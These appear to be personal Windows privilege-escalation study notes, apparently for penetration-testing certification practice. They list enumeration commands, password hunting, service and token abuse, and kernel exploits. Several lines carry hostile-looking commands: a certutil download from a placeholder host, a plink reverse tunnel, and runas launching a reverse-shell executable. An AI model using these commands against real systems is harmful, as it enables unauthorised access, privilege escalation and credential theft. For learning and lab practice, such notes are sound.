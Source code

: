 ```yaml
---
description: >-
  at the end of the day, you have to picture the way. these tools can only guide
  you so much
---
```


# Windows PrivEsc

HKCU - Current User\
HKLM - Local Machine

{% embed url="https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html" %}
Whole picture + Weak Services
{% endembed %}

{% embed url="https://benheater.com/thm-windows-privesc/" %}
No nonsense - straight to business
{% endembed %}

{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-weak-registry-permission/" %}
Weak Registry
{% endembed %}

Watch out for ADS (Alternate data streams) - good way to hide data (`dir /r` lists it out for you)&#x20;

Host file -`C:\Windows\System32\drivers\etc\hosts`

## Commands

```
findstr /B /C "string" - grep basically
certutil -urlcache -f http://$IP/$PATH_TO_FILE - wget basically
searchsploit <keyword> - search for exploits here instead of google first lmao
searchsploit -m $ID - gets exploit code/script from db
winexe (remote commands on windows system from linux) and psexec (remote commands from windows)
winexe needs SMB enabled thats why no need to mention port number
icacls - ACL to files/directories
where /R c:\windows bash.exe
```

if psexec dont work, smbexec.py (half shell) or wmiexec

### Basic Info gathering

```
systeminfo - (ready exploits might be there for outdated versions)
wmic qfe - check patch history (wmi - windows management instrumentation command line quick fix engineering)
wmic logicaldisk get caption,description,providername
```

#### User Enumeration

```
whoami /priv /groups
net user (lists users on system)
net user $username - lists all relavant info of that user
net localgroup $groupname
```

#### Network Enumeration

```
ipconfig
arp -a
netstat -ano 
```

#### Password Hunting (Can automate)

```
findstr "/si password *.txt (look for string "password" in any txt file) 
```

#### AV Enumeration

```
sc query windefend
sc query <query> see what services are running
netsh advfirewall firewall dump
netsh firewall show state/config
```

## Automated Enumeration

#### GO TO

* winPEAS.exe
* PowerUp.ps1
* SharpUp.exe
* Rubeus.exe
* Certify.exe

#### TO BE SOON

* Seatbelt.exe
* Watson.exe
* Sherlock.ps1
* jaws-enum.ps1
* windows-exploit-suggester.py

Sherlock looks for a set of CVEs most famous

## Passwords and Port Forwarding

```
plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080
```

Password exploits

* Saved creds
* Registry - The registry can be searched for keys and values that contain the word "password":
* SAM (Security Account Manager)
* Pass the hash

```
cmdkey /list
runas /savecred /user:username C:\PrivEsc\reverse.exe
```

## Service Exploits

* Insecure Service Permissions
* Unquoted Service Path&#x20;
* Weak Registry Permissions (If writable by the "NT AUTHORITY\INTERACTIVE" group (essentially all logged-on users)

```
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc #check perms
sc qc daclsvc
```

## WSL

not sure if i need it at this point in time so do come back and check up

## Token Impersonation

like cookies for your computer

* Delegate - created for logging into machine or RDP
* Impersonate - "non-interactive" such as attaching network drive or domain login script&#x20;

```
whoami /priv 
```

msfvenom to generate powershell payload, check how to do it wo meterpreter tho

**getsystem** - Magic way to become Admin, DO NOT SPAM

3 methods

* Named Pipe impersonation (In memory/admin)
* Named Pipe impersonation (Dropper/admin) - most risky, will be flagged by AV cus inserting dll into disk
* Token Impersonation (In memory/admin) - Needs SeDebugPriveleges

## Kernel Exploits

Most basic zero skill vector - this why make sure your systems are always updated

windows-exploit-suggester.py does bitsss (update db before using tho, run locally: feed it systeminfo data and it will run it against its db)

it has exploits for diff builds of windows

MS10-059 and others very popular: focus on privelege escalation vulns mentioned&#x20;

## Further ones to watch

* Executable Files - \[Ben `AlwaysInstallElevated`]
* Startup Applications - \[Ben `Autorun`]
* DLL Hijacking - \[Ben DLL]

